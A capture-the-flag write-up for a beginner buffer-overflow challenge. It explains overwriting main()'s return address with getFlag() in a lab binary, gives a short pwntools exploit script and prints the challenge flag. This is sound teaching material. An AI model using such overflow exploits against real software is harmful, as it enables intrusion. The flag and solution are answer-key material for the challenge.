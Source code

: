 # easy bof

### 📍 Description
This time, you cannot patch the binary and you 
need to exploit a vulnerability in the code.

Additionally, we do not provide the code but you can know that:
```c
char buff[16];
```

Try to use gdb and understand the behavior of the program

Also here, flag in clear but please report every step in the write-up!

## 🔑 Solution
Considering the description, that gives us the dimensions of the buffer, we concur that we must perform a buffer overflow.

We can see that the buffer is 16 char wide and that there's a `getFlag()` function that we might want to execute, so the return address of `main()` must be overwritten with the address of `getFlag()`.

We can use gdb to see the dimensions of the stack in order to undestand how much "padding" to send to write the `getFlag()` address in the correct place, which is 24 bytes.

```python
import pwn

p = pwn.process("./easy_bof")
elf = pwn.ELF("./easy_bof")

p.sendline(b"A"*(16+24)+pwn.p64(elf.symbols["getFlag"]))
p.interactive()
```

### 🚩 Flag
```plain
spritz{bof_for_fun_and_profit?}
```